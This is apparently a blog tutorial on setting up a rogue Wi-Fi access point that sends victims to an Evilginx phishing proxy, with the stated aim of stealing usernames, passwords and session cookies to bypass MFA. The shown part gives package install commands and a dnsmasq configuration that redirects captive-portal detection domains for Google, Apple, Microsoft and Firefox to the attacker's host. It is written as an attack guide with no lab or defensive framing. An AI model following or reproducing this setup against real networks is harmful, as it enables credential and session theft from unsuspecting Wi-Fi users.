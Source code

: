 ```yaml
---
title: Fake AP + Evilginx: Capturing credentials and sessions in a fake Wifi
description: Welcome to Hugo Theme Stack
slug: fakeap
date: 2025-10-16 22:15:00+0000
image: cover.jpg
categories:
    - wifi
tags:
    - wifi
    - evilginx
weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```


Basically, the idea is create a fake wifi network that appears a legitimate wifi, and redirect to the users to phishing website with Evilginx. Evilginx is not just a fake normal webpage, if not that it acts as a man in the middle, intercepting all the traffic between the victim and the real websites (like a Gmail or facebook), stealing users, passwords, and the session cookies, what allow bypass the MFA verification. 

What we need:

1. Computer with Linux OS
2. Wifi Adapter

## Fake AP

### Install software and dependencies

We need to install the tools

```bash
sudo apt update && sudo apt upgrade -y
sudo apt install hostapd dnsmasq apache2 php iptables-persistent -y
sudo systemctl stop hostapd dnsmasq apache2
sudo systemctl disable hostapd dnsmasq
```

### Configure dnsmasq.conf

```bash
# Interface to bind to
interface=wlan0

# DHCP range and lease time
dhcp-range=192.168.45.10,192.168.45.100,255.255.255.0,12h

# Gateway and DNS server (our machine)
dhcp-option=3,192.168.45.1
dhcp-option=6,192.168.45.1

# Redirect all DNS queries to our server
#address=/#/192.168.45.1

# Specific captive portal detection domains
address=/connectivitycheck.gstatic.com/192.168.45.1
address=/clients3.google.com/192.168.45.1
address=/captive.apple.com/192.168.45.1
address=/www.msftconnecttest.com/192.168.45.1
address=/detectportal.firefox.com/192.168.45.1
```
